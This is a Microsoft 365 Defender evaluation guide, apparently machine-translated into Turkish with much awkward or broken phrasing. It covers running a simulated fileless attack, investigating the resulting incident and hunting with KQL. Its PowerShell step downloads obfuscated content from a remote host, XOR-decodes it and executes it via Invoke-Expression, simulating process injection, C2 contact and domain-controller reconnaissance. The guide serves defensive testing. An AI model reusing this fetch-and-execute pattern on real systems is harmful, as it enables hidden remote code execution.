

# <a name="run-your-microsoft-365-defender-attack-simulations"></a>Microsoft 365 Defender saldırı benzetimlerini çalıştırma

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|[](m365d-pilot-plan.md)<br/>[Planlama](m365d-pilot-plan.md)|[](prepare-m365d-eval.md)<br/>[Hazırlık](prepare-m365d-eval.md)|<br/>Saldırıyı benzetin|[](m365d-pilot-close.md)<br/>[Kapatma ve özetleme](m365d-pilot-close.md)|
|--|--|--|--|
|||*Buradasınız!*||

Şu anda saldırı benzetimi aşamasındayız.

Pilot ortamınızı hazırlarken, olay yönetimi ve otomatik Microsoft 365 Defender düzeltme özelliklerini test etmek için zaman geldi. Algılamadan gizlemek için gelişmiş tekniklerden yararlanan gelişmiş bir saldırının benzetimini yapmak için size yardımcı oluruz. Saldırı, etki alanı denetleyicilerinde açılan Sunucu İleti Bloğu (SMB) oturumlarını numaralara alır ve kullanıcıların cihazlarının son IP adreslerini alır. Bu saldırı kategorisi genellikle saldırının cihazında bırakılan dosyaları içermemektedir; yalnızca bellekte meydana gelir. Var olan sistem ve yönetim araçlarını kullanarak "karadan canlı" çıkarlar ve yürütmelerini gizlemek için kodlarını sistem işlemlerine verir, Bu davranış algılamayı geri alamalarına ve cihazda kalıcılıklarını kullanmalarına olanak sağlar.

Bu benzetimde, örnek senaryomuz bir PowerShell betiğiyle başlar. Kullanıcı bir betiği çalıştırmaya kandırmaya neden olabilir. Ya da betik, daha önce virüs bulaştığı bir cihazdan uzak bir bilgisayardan başka bir bilgisayara doğru ilerler; bu da ağı kullanarak sonraki bir yere taşınmaya çalışan saldırgandır. Yöneticiler ayrıca, çeşitli yönetim etkinliklerini çalıştırmak için betikleri çoğunlukla uzaktan çalıştıracakları için bu betikleri algılamak zor olabilir.


Benzetim sırasında saldırı, görünüşe göre devam ediyor gibi görünen bir süreç için kabuk kodu eklemeye başladı. Bu senaryo için E-notepad.exe. Bu işlemi benzetim için seçtik, ancak saldırganlar büyük olasılıkla Sistem Sistemi gibi uzun vadeli bir sistem sürecini svchost.exe. Ardından kabukkodu, devam nasıl devam edecek yönergeleri almak için saldırganın komut ve denetim (C2) sunucusuna gider. Betik, etki alanı denetleyicisine (DC) yönelik reconnaissance sorguları yürütmeye çalışır. Reconnaissance, bir saldırganın son kullanıcı oturum açma bilgileri hakkında bilgi edinsına olanak sağlar. Saldırganlar bu bilgilere sahip olduktan sonra belirli bir hassas hesaba almak için ağlarında sonraki adımlara da devam eder

> [!IMPORTANT]
> En iyi sonuçları elde etmek için saldırı benzetim yönergelerini mümkün olduğunca yakından izleyin.

## <a name="simulation-environment-requirements"></a>Benzetim ortamı gereksinimleri

Hazırlık aşamasında pilot ortamınızı zaten yapılandırdınız, bu senaryo için iki cihazınız olduğundan emin olun: test cihazı ve etki alanı denetleyicisi.

1. Kiracının Kiracı [etkinleştirildiğinden emin Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).

2. Test etki alanı denetleyicisi yapılandırmanızı doğrulayın:

   - Cihaz, Windows Server 2008 R2 veya sonraki bir sürümle çalışır.
   - Test etki alanı denetleyicisi Identity için [Microsoft Defender'a ve](/azure/security-center/security-center-wdatp) uzaktan [yönetimi etkinleştirin](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).
   - Kimlik ve [Kimlik için Microsoft Defender ile Microsoft Cloud App Security tümleştirmenin](/cloud-app-security/mdi-integration) etkinleştirildiğinden emin olun.
   - Etki alanınız üzerinde bir test kullanıcısı oluşturulur; yönetici izni gerekmez.

3. Test cihazı yapılandırmasını doğrulama:

   1. Cihaz, Windows 10 1903 veya sonraki bir sürümle çalışır.

   1. Test cihazı test etki alanına katılmış.

   1. [Aç'Windows Defender Virüsten Koruma](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). E-Windows Defender Virüsten Koruma etkinleştirme konusunda sorun Windows Defender Virüsten Koruma bu sorun giderme [başlığına bakın](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).

   1. Test aygıtının Uç Nokta için [Microsoft Defender'a ekli olduğunu doğrulayın)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Var olan bir kiracı kullanıyor ve cihaz gruplarını kullanıyorsanız, test cihazı için ayrılmış bir cihaz grubu oluşturun ve bunu yapılandırma UX'sinde en üst düzeye itin.

## <a name="run-the-attack-scenario-simulation"></a>Saldırı senaryosu benzetimlerini çalıştırma

Saldırı senaryosu benzetimunu çalıştırmak için:

1. Test cihazına test kullanıcı hesabıyla oturum açın.

2. Test Windows PowerShell bir sayfa penceresi açın.

3. Aşağıdaki benzetim betiği kopyalayın:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Bu belgeyi bir web tarayıcısında açarsanız, bazı karakterleri kaybetmeden veya fazladan satır sonları eklemeden metnin tamamını kopyalamayla ilgili sorunlarla karşılaşabilirsiniz. Bu belgeyi indirin ve Adobe Reader'da açın.

4. Bilgi isteminde, kopyalanan betiği yapıştırın ve çalıştırın.

> [!NOTE]
> PowerShell'i uzak masaüstü protokolünü (RDP) kullanarak kullanıyorsanız, RDP istemcisinde Pano Metni Yaz komutunu kullanın, çünkü **CTRL-V** kısayol tuşu veya sağ tıklama yapıştırma yöntemi çalışmıyor olabilir. PowerShell'in son sürümleri de bazen bu yöntemi kabul etmez; önce bellekte Not Defteri'e kopyalamanız, sanal makineye kopyalamanız ve sonra da PowerShell'e yapıştırmanız gerekir.

Birkaç saniye sonra, <i>notepad.exe</i> bir süre sonra açılır. Sanal bir saldırı kodu bu cihaza notepad.exe. Tüm senaryoyu deneyim deneyim Not Defteri için otomatik olarak oluşturulan belge örneğini açık tutabilirsiniz.

Sanal saldırı kodu, bir dış IP adresine (C2 sunucusunu simüle eder) iletişim kurmaya ve ardından SMB aracılığıyla etki alanı denetleyicisine karşı mutabıklık kurmaya çalışacak.

Bu komut dosyası tamamlandığında PowerShell konsolunda bir ileti görüntülenir.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Otomatik Olay ve Yanıt özelliğinin nasıl çalıştığını görmek için, otomatik notepad.exe açık tutabilirsiniz. Otomatik Olay ve Yanıt'ın Otomatik Olay'ın otomatik işlem Not Defteri görüyorsunuz.

## <a name="investigate-an-incident"></a>Olayı araştırma

> [!NOTE]
> Bu benzetimde size yol başlamadan önce, olay yönetiminin araştırma sürecinin bir parçası olarak ilgili uyarıları bir araya almanıza nasıl yardımcı olduğunu, portalda nerede bu şekilde bulunasınız ve güvenlik işlemleriniz içinde size nasıl yardımcı olduğunu görmek için aşağıdaki videoyu izleyin:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Görünüm SOC analisti noktasına geçiş yapmakla, güvenlik merkezi portalında saldırıyı Microsoft 365 başlayabilirsiniz.

1. Herhangi bir [Microsoft 365 portal olayı](https://security.microsoft.com/incidents) kuyruğundan Güvenlik Merkezi'nde açın.

2. Menüden **Olaylar'a** gidin.

    

3. Benzetimi yapılan saldırının yeni olayı olay sırasında görünür.

    

### <a name="investigate-the-attack-as-a-single-incident"></a>Saldırıyı tek bir olay olarak araştırma

Microsoft 365 Defender analizlerle ilgili tüm uyarıları ve soruşturmaları tek bir olay varlığında bir araya toplar. Bunu yaparak, Microsoft 365 Defender bir saldırı anlatısı gösterir ve SOC analisti'nin karmaşık tehditleri an anlamalarına ve bunları yanıtlamasına olanak verir.

Bu benzetim sırasında oluşturulan uyarılar aynı tehditle ilişkilendirilmiştir ve bunun sonucunda otomatik olarak tek bir olay olarak toplanır.

Olayı görüntülemek için:

1. Olaylar **sırasına** gidin.

   

2. Olay adının sol tarafından bulunan daireye tıklayarak en yeni öğeyi seçin. Yan panelde, ilgili tüm uyarılar da dahil olmak üzere olay hakkında ek bilgiler görüntülenir. Her olayın, içinde yer alan uyarıların özniteliklerine göre olayı açıklayan benzersiz bir adı vardır.

   

   Panoda show alerts that be filtered based on service resources: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.

3. Olay **hakkında daha fazla bilgi** almak için Olay sayfasını aç'ı seçin.

   Olay **sayfasında** , olayla ilgili tüm uyarıları ve bilgileri görebilirsiniz. Bu bilgiler uyarıya katılan varlıkları ve varlıkları, uyarıların algılama kaynağını (Kimlik için Microsoft Defender, EDR) ve bunların bağlantılarının nedenini içerir. Olay uyarı listesinin gözden geçirmesi saldırının ilerlemesini gösterir. Bu görünümde, tek tek uyarıları görebilir ve araştırabilirsiniz.

   Ayrıca sağ menüde **Olayı** yönet'e tıklar, olayı etiketlir, kendinize atayır ve açıklamalar ekleyebilirsiniz.

   

   

### <a name="review-generated-alerts"></a>Oluşturulan uyarıları gözden geçirme

Benzetimi yapılan saldırı sırasında oluşturulan uyarılardan bazılarına bakalım.

> [!NOTE]
> Benzetimi yapılan saldırı sırasında oluşturulan uyarılardan yalnızca birkaçı için size yoleceğiz. Test aygıtınızda çalışan Windows Microsoft 365 Defender sürümüne bağlı olarak, biraz farklı bir sırada görünen daha fazla uyarıyla karşınıza çıkabilir.


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a>Uyarı: Şüpheli işlem eklemesi gözlemlendi (Kaynak: Uç Nokta için Microsoft Defender EDR)

Gelişmiş saldırganlar, bellekte kalıcı olmak ve algılama araçlarından gizlemek için gelişmiş ve gizli yöntemler kullanır. Yaygın tekniklerden biri, kötü amaçlı yürütülebilir dosyalar yerine güvenilen bir sistem sürecinden çalışarak, kötü amaçlı kodu algılama araçlarını ve güvenlik işlemlerini zor hale etmektir.

SOC analistlerinin bu gelişmiş saldırılara yakalamasına olanak sağlamak için, Uç Nokta için Microsoft Defender'daki derin bellek algılayıcıları çeşitli süreç kod ekleme tekniklerinin göz alıcı görünürlüğünü sağlayan bulut hizmetimizi sunar. Aşağıdaki şekilde, uç nokta için Defender'ın bu kod ekleme girişimiyle nasıl algılandı ve <i>notepad.exe. </i>


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a>Uyarı: İşlem tarafından gözlemlenen beklenmedik davranış, komut satırı bağımsız değişkeni yok olarak çalıştırıldı (Kaynak: Uç Nokta için Microsoft Defender EDR)

Uç nokta algılamaları için Microsoft Defender genellikle bir saldırı tekniğinin en yaygın özniteliğini hedefler. Bu yöntem, dayanıklılığı sağlar ve saldırganların yeni taktiklere geçiş çubuklarını artırır.

Kuruluş içindeki ve dünya genelinde ortak süreçlerin normal davranışını oluşturmak için büyük ölçekli öğrenme algoritmaları kullanır ve bu süreçlerin anormal davranışlar göstermelerini izleriz. Bu anormal davranışlar genellikle fazladan kod ekndiğini ve başka türlü bir güvenilir işlemde çalıştırıldıklarını ortaya söylüyor.

Bu senaryo için süreç ve <i>notepad.exe</i> dış konumla iletişimi içeren anormal davranışı sergilemektedir. Bu sonuç, kötü amaçlı kodun tanıtımını yapmak ve yürütmek için kullanılan belirli bir yöntemden bağımsızdır.

> [!NOTE]
> Bu uyarı, ek arka uç işleme gerektiren makine öğrenme modellerine dayalı olduğundan, bu uyarıyı portalda görmenin biraz zaman al saati olabilir.

Uyarı ayrıntılarının dış IP adresini (araştırmayı genişletmek için özet olarak kullanabileceğiniz bir gösterge) içermesi dikkat edin.

IP adresi ayrıntıları sayfasını görüntülemek için uyarı işlemi ağacında IP adresini seçin.


Aşağıdaki şekilde seçili IP Adresi ayrıntıları sayfası görüntülenir (Uyarı işlemi ağacında IP adresine tıklama).


#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Uyarı: Kullanıcı ve IP adresi uyumlulaştırma (SMB) (Kaynak: Kimlik için Microsoft Defender)

Sunucu İleti Bloğu (SMB) protokolünün kullanımı, saldırganların belirli bir hassas hesaba erişmek için daha sonra ağ içinde daha sonra hareket etmelerine yardımcı olan son kullanıcı oturum açma bilgilerini ağına ulaşabilmesini sağlar.

Bu algılamada, etki alanı denetleyicisinde SMB oturumu numaralama işlemi çalıştırlendiğinde bir uyarı tetiklenir.


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a>Cihaz zaman çizelgesini gözden geçirme [Uç Nokta için Microsoft Defender]

Bu olayda çeşitli uyarıları keşfettikten sonra, daha önce araştırılan olay sayfasına geri gidin. Uç Nokta **için** Microsoft Defender ve Kimlik için Microsoft Defender tarafından bildirilen bu olaya dahil olan cihazları gözden geçirmek için olay sayfasında Cihazlar sekmesini seçin.

Saldırının yürütül olduğu cihazın adını seçerek ilgili cihazın varlık sayfasını açın. Bu sayfada, tetiklenen uyarıları ve ilgili olayları görebilirsiniz.

Cihaz zaman **çizelgesini** açmak ve cihazda gözlemlenen tüm olay ve davranışları, uyarılar yükseltilmiş olarak kronolojik sırada görüntülemek için Zaman Çizelgesi sekmesini seçin.


Daha ilginç davranışlardan bazılarının genişletilmesi, işlem ağaçları gibi yararlı ayrıntılar sağlar.

Örneğin, Şüpheli işlem eklemesi gözlemlenen uyarı **olayına gelene kadar aşağı kaydırın**. Yan **powershell.exe Varlıklarının grafiği altında** bu davranışın tam işlem ağacını görüntülemek için, notepad.exe süreç olayına eklemek istediğiniz işlemi seçin. Gerekirse filtreleme için arama çubuğunu kullanın.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Kullanıcı bilgilerini gözden geçirme [Microsoft Cloud App Security]

Olay sayfasında, saldırıya **katılan kullanıcıların** listesini görüntülemek için Kullanıcılar sekmesini seçin. Tabloda, her kullanıcının Araştırma Önceliği puanı da dahil olmak üzere, her kullanıcı **hakkında ek bilgiler** yer alır.

Kullanıcının daha fazla araştırmanın yürütül olduğu profil sayfasını açmak için kullanıcı adını seçin. [Riskli kullanıcıları araştırma hakkında daha fazla makale okuyun](/cloud-app-security/tutorial-ueba#identify).


## <a name="automated-investigation-and-remediation"></a>Otomatik araştırma ve düzeltme

> [!NOTE]
>Bu benzetimde size yol bulmadan önce, otomatik öz güvenin ne olduğunu, portalda nerede bulunsa ve güvenlik işlemlerinize nasıl yardımcı olduğunu bulmak için aşağıdaki videoyu izleyin:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Güvenlik Merkezi portalında olay Microsoft 365 gidin. Olay **sayfasındaki** **Soruşturmalar sekmesi** , Kimlik için Microsoft Defender ve Uç Nokta için Microsoft Defender tarafından tetiklenen otomatik soruşturmaları gösterir. Aşağıdaki ekran görüntüsünde yalnızca Uç Nokta için Defender tarafından tetiklenen otomatik araştırma görüntülenir. Varsayılan olarak, Uç Nokta için Defender kuyrukta bulunan yapıları otomatik olarak yeniden ayarlar ve bu da düzeltme gerektirir.


Araştırma ayrıntıları sayfasını açmak için araştırmayı tetikleyen **uyarıyı** seçin. Aşağıdaki ayrıntıları burada görüyorsunuz:

- Otomatik araştırmayı tetikleyen uyarılar.
- Etkide olan kullanıcılar ve cihazlar. Göstergeler başka cihazlarda bulunursa, bu ek cihazlar da listelenir.
- Kanıt listesi. Dosyalar, süreçler, hizmetler, sürücüler ve ağ adresleri gibi bulunan ve çözüm bulunan varlıklar. Bu varlıklar, uyarıyla ilgili olası ilişkileri inceler ve bunları kötü amaçlı veya kötü amaçlı olarak derecelendiler.
- Tehdit bulundu. Araştırma sırasında bulunan bilinen tehdit.

> [!NOTE]
> Zamanlamaya bağlı olarak, otomatik araştırma hala çalışıyor olabilir. Kanıtı toplayıp çözümlemeden ve sonuçları gözden geçirmeden önce, işleminin tamamlanması için birkaç dakika bekleyin. En son **bulguları elde etmek** için Araştırma ayrıntıları sayfasını yenileyin.


Otomatik araştırma sırasında, Uç Nokta için Microsoft Defender notepad.exe düzeltme gerektiren yapılardan biri olarak ekli olan dağıtım işlemini tanımlanır. Uç Nokta için Defender otomatik düzeltmenin bir parçası olarak şüpheli işlem ekleme işlemini otomatik olarak durdurur.

Test <i>notepad.exeçalıştırma </i> işlemleri listesinden nasıl kaybolacaklarını görebiliriz.

## <a name="resolve-the-incident"></a>Olayı çözme

Araştırma tamamlandıktan ve düzeltilen onaylandıktan sonra olayı kapatın.

Olayı **yönet'i seçin**. Durumu Olayı çöz **olarak ayarlayın ve** ilgili sınıflandırmayı seçin.

Olay çözülürse, Güvenlik Merkezi'nde ve ilgili portallarda Microsoft 365 tüm uyarıları kapatır.


Bu, olay yönetimi ve otomatik araştırma ve düzeltme senaryoları için saldırı benzetimlerini tamamlar. Sonraki benzetim sizi kötü amaçlı olabilecek dosyalar için önceden tehdit avına götürecek.

## <a name="advanced-hunting-scenario"></a>Gelişmiş av senaryosu

> [!NOTE]
> Benzetimde size yol başlamadan önce gelişmiş av kavramlarını anlamak için aşağıdaki videoyu izleyin, portalda bunu nerede bulamaya ulaşabilirsiniz ve güvenlik işlemlerinize nasıl yardımcı olduğunu bilmek için aşağıdaki videoyu izleyin:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Av ortamı gereksinimleri

Bu senaryo için tek bir iç posta kutusu ve cihaz gereklidir. Test iletisi göndermek için bir dış e-posta hesabına da ihtiyacınız vardır.

1. Kiracınız etkiyi [etkinleştirmiş Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).
2. E-posta almak için kullanılacak hedef posta kutusunu tanımlama.
    a. Bu posta kutusu, b için Microsoft Defender tarafından izlen Office 365 gerekir. 3. gereksinime sahip cihazın bu posta kutusuna erişmesi gerekiyor
3. Bir test cihazı yapılandırma: a. 1903 veya Windows 10 sürümünü kullanmaya devam edin.
    b. Test cihazına test etki alanına katılın.
    c. [Aç'Windows Defender Virüsten Koruma](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). E-bilgileri etkinleştirmede sorun Windows Defender Virüsten Koruma bu [sorun giderme başlığına bakın](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    d. [Uç Nokta için Microsoft Defender'a ekleme](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>Benzetimi çalıştırma

1. Dış e-posta hesabından, test ortamı gereksinimleri bölümünün 2. adımlarında tanımlanan posta kutusuna bir e-posta gönderin. Var olan herhangi bir e-posta filtresi ilkeleri aracılığıyla izin verilen bir ek iliştirin. Bu dosyanın kötü amaçlı veya yürütülebilir bir dosya olması gerekir. Önerilen dosya türleri Word <i>.pdf</i>, <i>.exe</i> (izin verilmiyorsa) veya Office belgeniz olabilir.
2. Test ortamı gereksinimleri bölümünün 3. adımda tanımlandığı şekilde yapılandırılmış cihazdan gönderilen e-postayı açın. Eki açın veya dosyayı cihaza kaydedin.

#### <a name="go-hunting"></a>Go hunting

1. Security.microsoft.com açın.

2. Gelişmiş av **için >'ye gidin**.

   

3. E-posta olaylarını toparak başlayan bir sorgu oluşturun.

   1. Sorgu bölmesinde Yeni'yi seçin.

   1. Şemadan EmailEvents tablosuna çift tıklayın.

      ```console
      EmailEvents
      ```

   1. Zaman dilimini son 24 saat olarak değiştirme. Yukarıdaki benzetimi çalıştırarak gönderdiğiniz e-postanın son 24 saat içinde olduğunu varsayarak, aksi takdirde zaman dilimini değiştirebilirsiniz.

      

   1. Sorguyu çalıştırın. Pilot çalışma ortamına bağlı olarak birçok sonuç elde edersiniz.

      > [!NOTE]
      > Veri dönüşlerini sınırlamak için sonraki adıma bakın.

      

        > [!NOTE]
        > Gelişmiş arama, sorgu sonuçlarını tablo verileri olarak görüntüler. Ayrıca, verileri grafik gibi başka biçim türlerinde görüntülemeyi de tercihebilirsiniz.

   1. Sonuçlara bakın ve açtığınız e-postayı belirley olup görene bir bakın. İletinin gelişmiş avda 2 saat kadar sürebilir. E-posta ortamı büyükse ve birçok sonuç varsa, iletiyi bulmak için **Filtreleri Göster seçeneğini** kullanabilirsiniz.

      Örnekte, e-posta bir Yahoo hesabından gönderilmiştir. SenderFromDomain **bölümünün yahoo.com** yanındaki simgeye tıklayın ve sonra da seçili etki alanını sorguya  eklemek için Uygula'ya tıklayın.**+** Sonuçlarınızı filtrelemek için Benzetimi Çalıştır adım 1'de test iletisi göndermek için kullanılan etki alanını veya e-posta hesabını kullanın. Benzetimden gelen iletiyi gördüğünüzden emin olmak için daha küçük bir sonuç kümesi elde etmek için sorguyu yeniden çalıştırın.

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. Kaydı incelerken sorgudan sonuç satırlarına tıklayın.

      

4. Artık e-postayı gördüğünüze göre, eklere filtre ekleyin. Ortamda ekleri olan tüm e-postalara odaklanın. Bu senaryoda, ortamından gönderilen e-postalara değil gelen e-postalara odaklanın. İletinizi bulmak için, ekleytilen tüm filtreleri kaldırın ve "Filtre" | burada **AttachmentCount > 0** ve **EmailDirection** == **"Inbound""**

   Aşağıdaki sorgu, tüm e-posta olaylarını ilk sorgunuza göre daha kısa bir listeyle size gösterir:

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. Ardından, sonuç kümenize ek hakkında bilgileri (örneğin, dosya adı, karmalar) girin. Bunu yapmak için **EmailAttachmentInfo tablosuna** katılın. Bu durumda, katılmak için kullanılan ortak alanlar **NetworkMessageId** ve **RecipientObjectId'dir**.

   Aşağıdaki sorgu, bir de "Özel" satırı | **project-rename EmailTimestamp=Timestamp", e-postayla** hangi zaman damgasının ilişkili olduğunu ve bir sonraki adımda ekley o eylemleriyle ilgili zaman damgasını tanımlamanıza yardımcı olur.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. Ardından, **EmailAttachmentInfo** **tablosundan SHA256** değerini kullanarak bu karmanın **DeviceFileEvents'in** (uç noktada olan dosya eylemleri) adını bulun. Buradaki ortak alan, ekin SHA256 karması olur.

   Sonuçta elde edilen tablo artık cihaz adı, yapılan eylem (bu durumda yalnızca FileCreated olaylarını içerecek şekilde filtrelenmiş) ve dosyanın depolandığı yer gibi uç noktadan (Uç nokta için Microsoft Defender) ayrıntıları içerir. İşlemle ilişkili hesap adı da dahil edilir.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   Artık kullanıcının eki açtığı veya kayded olduğu tüm gelen e-postaları belirleyen bir sorgu oluşturdunuz. Ayrıca, belirli gönderen etki alanlarını, dosya boyutlarını, dosya türlerini ve diğer özellikleri filtrelemek için de bu sorguyu daraltabilirsiniz.

7. İşlevler, yaygın kullanımı, imzacı ve imzalayanın bilgileri vb. bir dosya hakkında daha fazla TI verisi çekmene izin verir. Dosya hakkında daha fazla ayrıntı almak için **, FileProfile() işlevini** zenginleştirmeyi kullanın:

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a>Algılama oluşturma

Daha sonra uyarı almak istediğiniz bilgileri tanımlayan bir sorgu oluşturduktan sonra, sorgudan  özel bir algılama oluşturabilirsiniz.

Özel algılamalar, sorguyu ayar aralığına göre çalıştıracak ve sorguların sonuçları, seçtiğiniz etkiyi etkileyen varlıklara bağlı olarak güvenlik uyarıları oluşturur. Bu uyarılar olaylarla bağlantılıdır ve ürünlerden biri tarafından oluşturulan diğer güvenlik uyarılarından biri olarak triyaktı oluşturulacak.

1. Sorgu sayfasında, 7. adımda eklenen 7. ve 8. satırları kaldırın, sonra da Avlamaya git yönergelerine tıklayın ve Algılama kuralı **oluştur'a tıklayın**.

   

   > [!NOTE]
   > Algılama kuralı **oluştur'a tıklarsanız** ve sorgunuzda söz dizimi hataları varsa, algılama kuralınız kaydedilemiyor. Hata olmadığını kontrol etmek için sorguyu bir kez daha denetleyin.

2. Gerekli alanları, güvenlik ekibinin uyarıyı, neden oluşturulmuş olduğunu ve hangi eylemleri gerçekleştireceklerini anlamalarına olanak sağlayacak bilgilerle doldurun.

   

   Sonraki kullanıcıya bu algılama kuralı uyarısı hakkında bilinçli bir karar vermeye yardımcı olmak için alanları açık bir şekilde doldurmanıza dikkat edin

3. Bu uyarıda hangi varlıkların etkile ilgili olduğunu seçin. Bu durumda Cihaz ve Posta **Kutusu'seçin****.**

   

4. Uyarı tetiklenirse hangi eylemlerin gerçekleştir dikkatli olması gerektiğini belirleme. Bu durumda, başka eylemler de gerçekleştirese de bir virüsten koruma taraması çalıştırın.

   

5. Uyarı kuralının kapsamını seçin. Bu sorguda cihazlar olduğu için, cihaz grupları Uç nokta bağlamı için Microsoft Defender'a göre bu özel algılama için gereklidir. Etkilenmek istediğiniz cihazlar dışında bir özel algılama oluşturulurken kapsam geçerli olmaz.

   

   Bu pilot için, bu kuralı üretim ortamınızı test cihazlarının bir alt kümesiyle sınırlandırabilirsiniz.

6. **Oluştur**’u seçin. Ardından, gezinti **bölmesinden Özel algılama** kuralları'nı seçin.

   

   

   Bu sayfadan, algılama kuralını seçerek ayrıntılar sayfasını açabilirsiniz.

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Ek gelişmiş av alıştırmaları

Gelişmiş arama hakkında daha fazla bilgi edinmek için, aşağıdaki webcast'lar sütunlu sorgular oluşturmak, varlıklara özet olmak ve özel algılamalar ve düzeltme eylemleri oluşturmak için Microsoft 365 Defender'de gelişmiş arama yeteneklerinde size yol gösterir.

> [!NOTE]
> Pilot test laboratuvarı ortamında GitHub sorgularını çalıştırmak için kendi e-posta hesabınızla hazırlıklı olun.

|Başlık|Açıklama|MP4'ü indirin|YouTube'da izleyin|Kullanım için CSL dosyası|
|---|---|---|---|---|
|Bölüm 1: KQL'nin temelleri|Bu uygulamayla birlikte, gelişmiş avlama özellikleriyle ilgili temel Microsoft 365 Defender. Gelişmiş arama verileri ve temel KQL söz dizimi ve işleçleri hakkında bilgi öğrenin.|[MP4](https://aka.ms/MTP15JUL20_MP4)|[YouTube](https://youtu.be/0D9TkGjeJwM)|[Bölüm 1: Git'te CSL dosyası](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|Bölüm 2: Katılmalar|Gelişmiş avda veriler ve tabloları birlikte birleştirme hakkında bilgi öğrenmeye devam edeceğiz. İç, dış, benzersiz ve yarı birleşimler ve varsayılan Kusto innerunique birleştirmesi ile ilgili nüanları öğrenin.|[MP4](https://aka.ms/MTP22JUL20_MP4)|[YouTube](https://youtu.be/LMrO6K5TWOU)|[Bölüm 2: Git'te CSL dosyası](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|Bölüm 3: Verileri özetleme, özetleme ve görselleştirme|Artık verileri filtreleyip işlemeye ve bir birleşime sahip olduğunuza göre özetleme, nicelik, özetleme ve görselleştirmeye başlamanın zamanı geldi. Bu bölümde, gelişmiş av şemasında ek tablolara atlarken özetleme işleci ve gerçekleştirebilirsiniz hesaplamalardan bazıları ele alınacak. Veri kümelerimizi, çözümlemeyi geliştirmeye yardımcı olacak grafiklere çeviririz.|[MP4](https://aka.ms/MTP29JUL20_MP4)|[YouTube](https://youtu.be/UKnk9U1NH6Y)|[Bölüm 3: Git'te CSL dosyası](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|Bölüm 4: Şimdi avlanın! Olay izleme için KQL uygulama|Bazı saldırgan etkinliklerini izleme zamanı! Bu bölümde, bir saldırıyı takip etmek için KQL'ye ve gelişmiş avlamaya Microsoft 365 Defender anıldık. Siber güvenlik AB'leri ve bunları olay tepkilerine nasıl uygulayacakları dahil olmak üzere, saldırgan etkinliğini izlemek için alanda kullanılan bazı ipuçlarını ve püf noktalarını öğrenin.|[MP4](https://aka.ms/MTP5AUG20_MP4)|[YouTube](https://youtu.be/2EUxOc_LNd8)|[Bölüm 4: Git'te CSL dosyası](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a>Sonraki adım

| <br>[Kapatma ve özet aşaması](m365d-pilot-close.md)|Bu Microsoft 365 Defender analiz edin, bunları proje katılımcılarına suz ve bir sonraki adımı atin.
|:-----|:-----|
